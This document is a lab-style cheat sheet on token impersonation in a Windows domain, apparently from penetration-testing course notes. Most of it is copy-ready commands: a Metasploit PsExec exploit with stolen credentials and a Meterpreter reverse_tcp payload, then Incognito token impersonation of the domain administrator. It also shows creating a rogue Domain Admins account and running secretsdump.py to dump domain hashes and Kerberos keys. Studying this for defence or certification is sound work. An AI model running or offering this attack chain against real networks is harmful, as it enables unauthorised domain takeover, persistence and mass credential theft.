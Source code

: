 ```yaml
---

# 🛡️ **Token Impersonation Walkthrough Cheat Sheet**

---
```


### **Summary**

This walkthrough demonstrates the process of exploiting SMB vulnerabilities to perform **token impersonation** in a Windows domain environment. We will leverage the **PsExec module** in Metasploit to gain SYSTEM access and escalate privileges using **Meterpreter's Incognito** extension. The guide includes adding a new domain admin user and dumping domain secrets using [**secretsdump.py**](http://secretsdump.py/) to retrieve sensitive information from the domain controller.

Here’s a quick, easy-to-digest summary of the steps we took:

### **Token Impersonation Summary**:

1. **Connect using PsExec**:
    - Used stolen credentials (fcastle) to gain access via Metasploit’s **PsExec**.
2. **Gain SYSTEM access**:
    - PsExec automatically gives us **SYSTEM privileges** on the target machine.
3. **Load Incognito**:
    - Loaded the **Incognito** extension in Meterpreter to manage tokens.
4. **Impersonate Admin**:
    - Used `impersonate_token MARVEL\\\\administrator` to act as the domain admin.
5. **Verify Admin Access**:
    - Used `shell` to confirm we are now **`marvel\\administrator`** with domain admin privileges.
6. **Create New User**:
    - Created a new domain user (`hawkeye`) and added them to the **Domain Admins** group.
7. **Dump Secrets**:
    - Used **hawkeye’s credentials** to run [**secretsdump.py**](http://secretsdump.py/) and extract sensitive data (password hashes, Kerberos keys) from the domain controller.

---

### **Detailed Notes**

---

### **1. Setting up Metasploit**

```bash
msfconsole

```

- **Search and use PsExec module**:
    
    ```bash
    search psexec
    use exploit/windows/smb/psexec
    
    ```
    
- **Configure settings**:
    
    ```bash
    set payload windows/x64/meterpreter/reverse_tcp
    set rhosts 192.168.164.139
    set smbuser fcastle
    set smbpass Password1
    set smbdomain MARVEL.local
    
    ```
    
- **Run the exploit**:
    
    ```bash
    exploit
    
    ```
    

---

### **2. Gaining SYSTEM Access**

Once access is obtained, verify the account:

```bash
meterpreter > shell
whoami  # Output: nt authority\\system

```

- **Terminate session**:
    
    ```bash
    Terminate channel 1? [y/N] y
    
    ```
    

---

### **3. Loading Incognito Extension**

- **Load Incognito**:
    
    ```bash
    meterpreter > load incognito
    
    ```
    
- **Check available tokens**:
    
    ```bash
    meterpreter > list_tokens -u
    
    ```
    
- **Impersonate a token (fcastle)**:
    
    ```bash
    meterpreter > impersonate_token marvel\\\\fcastle
    whoami  # Output: marvel\\fcastle
    
    ```
    
- **Revert to SYSTEM**:
    
    ```bash
    meterpreter > rev2self
    meterpreter > getuid  # Output: NT AUTHORITY\\SYSTEM
    
    ```
    

---

### **4. Privilege Escalation**

- **Impersonate MARVEL Administrator**:
    
    ```bash
    meterpreter > impersonate_token MARVEL\\\\administrator
    whoami  # Output: marvel\\administrator
    
    ```
    

---

### **5. Adding a Domain Admin User**

- **Create a new user**:
    
    ```bash
    net user /add hawkeye Password1@ /domain
    
    ```
    
- **Add user to Domain Admins**:
    
    ```bash
    net group "Domain Admins" hawkeye /ADD /DOMAIN
    
    ```
    

Both commands return:

**"The request will be processed at a domain controller for domain MARVEL.local."**

---

### **6. Dumping Domain Secrets**

Run [**secretsdump.py**](http://secretsdump.py/) to extract sensitive data from the domain controller:

```bash
secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.164.138

```

Key output:

- Extracted NTDS.DIT hashes and Kerberos keys for domain accounts.
- **SAM hashes**, **LSA Secrets**, and cached credentials.

---

### **Abbreviations & Definitions**

---

- **SMB**: **Server Message Block** – A protocol for shared access to files and printers.
- **PsExec**: A tool for executing processes on remote systems using Windows Sysinternals.
- **NTDS.DIT**: Active Directory database that stores domain information.
- **Incognito**: Meterpreter extension for token manipulation (privilege escalation).
- **Delegation Token**: A token that allows a service to act on behalf of a user.

---

### **Critical Mentions & Exam Traps**

---

🚨 **Always verify impersonation**:

- After using `impersonate_token`, confirm the new context with `whoami` to ensure successful privilege escalation.

🚨 **Revert to SYSTEM**:

- Use `rev2self` after impersonating another token to return to **SYSTEM** context.

💡 **List tokens before impersonation**:

- Use `list_tokens -u` to view available tokens. Always check **Delegation Tokens** for higher privilege targets.

🚨 **secretsdump errors**:

- Be cautious of `SAM hashes extraction failed: string index out of range`. This error can arise from incomplete permissions or unsuccessful privilege escalation.

---
